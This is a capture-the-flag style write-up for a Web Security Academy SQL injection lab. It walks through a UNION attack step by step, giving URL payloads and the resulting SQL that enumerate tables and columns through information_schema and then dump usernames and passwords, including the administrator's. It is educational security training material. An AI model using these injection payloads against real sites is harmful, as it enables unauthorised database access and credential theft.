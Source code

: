 # Lab: SQL injection attack, listing the database contents on non-Oracle databases
This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.

To solve the lab, log in as the administrator user.

## Examining a non Oracle database
List the tables of the database:
```sql
SELECT * FROM information_schema.tables
```

List the columns of a table called 'Users':
```sql
SELECT * FROM information_schema.columns WHERE table_name = 'Users'
```

## Solution
Determine the amount of columns for the UNION attack:
```
https://0a8e005c048754418187e3b400ba00a8.web-security-academy.net/filter?category=Pets%27+union+select+null,null+--+
```
The structure seems like in the labs before. So we skip the datatype test at this point.

After that we query the tables of the database:
```
https://0a8e005c048754418187e3b400ba00a8.web-security-academy.net/filter?category=Pets%27+union+select+null,table_name+from+information_schema.tables+--+
```

The corresponding SQL statement looks like this:
```sql
SELECT name, description FROM products WHERE category = 'Pets' UNION SELECT NULL,TABLE_NAME FROM information_schema.tables --
```

And gives some kind of the following response:
![Tables](images/SQL_injection_attack_listing_the_database_contents_on_non-Oracle_databases_0.png)

Scrolling through the entries, we find an interesting table: `users_aydwzp`

Investigating the columns of this table:
```
https://0a8e005c048754418187e3b400ba00a8.web-security-academy.net/filter?category=Pets%27+union+select+null,column_name+from+information_schema.columns+where+table_name=%27users_aydwzp%27+--+
```
```sql
SELECT name, description FROM products WHERE category = 'Pets' UNION SELECT NULL,COLUMN_NAME FROM information_schema.columns WHERE TABLE_NAME = 'users_aydwzp' -- 
```

The table contains the columns `password_aynwgj` and `username_rigeck`. Seems like that what we are looking for:
![Columns of user table](images/SQL_injection_attack_listing_the_database_contents_on_non-Oracle_databases_1.png)


In the last step we have to query the content of those columns:
```
https://0a8e005c048754418187e3b400ba00a8.web-security-academy.net/filter?category=Pets%27+union+select+username_rigeck,password_aynwgj+from+users_aydwzp+--+
```
```sql
SELECT name, description FROM products WHERE category = 'Pets' UNION SELECT username_rigeck,password_aynwgj FROM users_aydwzp -- 
```

As we see, we got our administrator login with the password `umdpkx1cqsd6dsijd3wo`.
![Found users](images/SQL_injection_attack_listing_the_database_contents_on_non-Oracle_databases_2.png)

If we login with those credentials, the lab is solved.
